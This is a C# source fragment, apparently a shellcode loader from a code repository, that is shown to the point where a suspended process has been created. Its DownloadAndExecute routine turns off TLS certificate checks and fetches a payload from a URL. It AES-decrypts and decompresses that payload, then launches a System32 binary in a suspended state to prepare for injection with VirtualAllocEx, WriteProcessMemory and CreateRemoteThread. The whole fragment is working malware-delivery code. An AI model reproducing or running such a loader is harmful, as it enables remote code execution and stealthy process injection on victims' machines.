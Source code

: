 ```C#
        [DllImport("kernel32.dll")]
        public static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, Int32 dwSize, UInt32 flAllocationType, UInt32 flProtect);

        [DllImport("kernel32.dll")]
        public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] buffer, IntPtr dwSize, int lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);


        private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
        private static UInt32 MEM_COMMIT = 0x1000;

        public static void DownloadAndExecute(string url, string TargetBinary, string CompressionAlgorithm,byte[] AESKey,byte[] AESIV)
        {

            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;
            System.Net.WebClient client = new WebClientWithTimeout();

            byte[] encrypted = client.DownloadData(url);
            List<byte> l = new List<byte> { };
            byte[] actual;
            byte[] compressed;
            if (AESKey != null && AESIV != null)
            {


                for (int i = 16; i <= encrypted.Length - 1; i++)
                {
                    l.Add(encrypted[i]);

                }
                actual = l.ToArray();
                compressed = Decrypt(actual, AESKey, AESIV);
            }
            else
            {
                compressed = encrypted;

            }






            byte[] sc = Decompress(compressed, CompressionAlgorithm);
            string binary = TargetBinary;

            Int32 size = sc.Length;
            StartupInfo sInfo = new StartupInfo();
            sInfo.dwFlags = 0;
            ProcessInformation pInfo;
            string binaryPath = "C:\\Windows\\System32\\" + binary;
            IntPtr funcAddr = CreateProcessA(binaryPath, null, null, null, true, CreateProcessFlags.CREATE_SUSPENDED, IntPtr.Zero, null, sInfo, out pInfo);
            IntPtr hProcess = pInfo.hProcess;
```